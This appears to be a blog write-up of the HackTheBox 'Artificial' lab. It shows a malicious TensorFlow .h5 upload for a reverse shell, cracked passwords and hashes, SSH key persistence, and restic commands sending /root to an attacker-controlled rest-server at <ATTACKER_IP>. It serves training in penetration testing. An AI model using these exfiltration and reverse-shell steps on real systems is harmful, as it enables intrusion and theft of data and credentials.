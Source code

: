 ```yaml
---
title: " HackTheBox Artificial Writeup"
date: 2025-09-29
categories: [HTB, Machines]
tags: [Linux, CVE, restic, snapshots]
image:
  path: /assets/Artificial-htb/1.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Artificial HTB — blog writeup cover"
---
```


## Nmap Scan

I started by running a full TCP scan on the target using:
```shell
sudo nmap 10.10.11.74 -T4 -A -open -p-
```
![nmap](/assets/Artificial-htb/nmap-scan-Artificial.png)
I mapped the domain to the IP in ```/etc/hosts``` and discovered a file upload feature accepting only ```.h5``` files, commonly used for TensorFlow models.
![upload](/assets/Artificial-htb/upload.png)
Research uncovered a TensorFlow CVE enabling RCE via ```.h5``` files. Key resources:
- [TensorFlow RCE Research ](https://mastersplinter.work/research/tensorflow-rce/)
- [PoC Demo](https://github.com/Splinter0/tensorflow-rce?tab=readme-ov-file)

## TensorFlow Remote Code Execution with Malicious Model

![docker](/assets/Artificial-htb/docker.png)
To match the server’s environment ```(python:3.8, tensorflow==2.13.1)```, I used Docker to avoid ```load_model()``` issues due to version mismatches. I built the image:
```shell
sudo docker build -t artificial-exploit .
```
I ran the container, mounting the current directory to ```/app``` for file transfer:
```shell
sudo docker run -it -v $(pwd):/app artificial-exploit
```
Using the provided ```exploit.py``` script (modified with my IP ```10.10.16.40``` for the reverse shell), I generated exploit.h5:
![h5](/assets/Artificial-htb/h5.png)
I generated the ```exploit.h5``` file using:
```shell
python3 exploit.py
```
![exploit](/assets/Artificial-htb/exploit.png)
I uploaded exploit.h5 to the server 
![model](/assets/Artificial-htb/model.png)
and set up a listener:
```shell
nc -nvlp 6666
```
This granted a reverse shell.
![nc](/assets/Artificial-htb/nc.png)

## User.txt


For better functionality, I spawned a fully interactive TTY:
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
I found a ```users.db``` SQLite database and queried it:
![creds](/assets/Artificial-htb/creds.png)
This revealed user credentials, including hashed passwords. I cracked the hash for ``gael`` yielding:
![crack](/assets/Artificial-htb/crack.png)
```shell
gael:mattp005numbertwo
```
After cracking the password for the user ```gael```, I switched to their account:
![su](/assets/Artificial-htb/su.png)

successfully gaining access to the gael user account.

> Persistent SSH Access
{: .prompt-tip }
To enable easier file transfers and persistent access, I generated an ```ed25519 key pair``` on my Kali machine for security and efficiency:
```shell
ssh-keygen -t ed25519 -C "you@youremail" -f ~/.ssh/id_ed25519
```
I copied the public key to the server:
```shell
ssh-copy-id -i ~/.ssh/id_ed25519.pub gael@10.10.11.74
```
Then connected via SSH:
```shell
ssh -i ~/.ssh/id_ed25519 gael@10.10.11.74
```
![ssh](/assets/Artificial-htb/ssh.png)

## Backrest_root's Credits

I transferred and executed ```linpeas.sh``` to enumerate the system for privilege escalation vectors. While Linux check scripts can be used, ```linpeas.sh``` is faster and more comprehensive.
![linpease](/assets/Artificial-htb/linpease.png)
linpeas.sh pointed me to ```/var/backups```, where I found ```backrest_backup.tar.gz```, a backup file containing critical data.<br>
![backup](/assets/Artificial-htb/backup.png)
![backup2](/assets/Artificial-htb/backup2.png)
I transferred ```backrest_backup.tar.gz``` to my machine, extracted it, and found a ```config.json``` file:
![backup3](/assets/Artificial-htb/backup3.png)
![config](/assets/Artificial-htb/config.png)
The ```config.json``` contained a Base64-encoded bcrypt hash for the ```backrest_root``` service account:
```shell
{
  "name": "backrest_root",
  "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
}
```
I decoded the Base64 string to extract the bcrypt hash:
```shell
echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d

Output:

$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```
I used hashcat to crack the hash with the ```rockyou.txt``` wordlist:
```shell
hashcat -m 3200 hash.hash ../rockyou.txt --force
```
![hash](/assets/Artificial-htb/hash.png)
This revealed the password for ```backrest_root```:
```shell
backrest_root:!@#$%^
```

## Root.txt

![backr](/assets/Artificial-htb/backr.png)

Backrest, a web service executing system commands with root privileges, allows command injection via its interface (e.g., "Run Command" tab).<br>
According to GTFOBins, restic running with sudo can read or transfer sensitive files, such as those in ```/root```, when executed with elevated privileges.
![restic](/assets/Artificial-htb/restic.png)

I set up a ```rest-server``` on my attacker machine to receive backup data:
```shell
rest-server --path /tmp/restic-data --listen :12345 --no-auth 
```
![attack](/assets/Artificial-htb/attack.png)
This server stores data locally in /tmp/restic-data.

On the target’s Backrest interface ```(Run Command tab)```, I executed restic commands. Since Backrest prepends the binary ```/opt/backrest/restic```, I only provided the arguments.
- Initialize a repository:  
![repo](/assets/Artificial-htb/repo.png)
```shell
-r rest:http://<ATTACKER_IP>:12345/exploit init
```
![s1](/assets/Artificial-htb/s1.png)
- Back up the ```/root``` directory:
```shell
-r rest:http://<ATTACKER_IP>:12345/exploit backup /root
```
![s2](/assets/Artificial-htb/s2.png)
- On my attacker machine, I used restic to view snapshots and restore the ```backed-up``` data:
```shell
restic -r /tmp/restic-data/exploit snapshots
restic -r /tmp/restic-data/exploit restore <snapshot-id> --target ./restore
cat ./restore/root/root.txt
```
![attack](/assets/Artificial-htb/attack.png)
![root](/assets/Artificial-htb/root.png)
This successfully retrieved the ```root.txt``` file.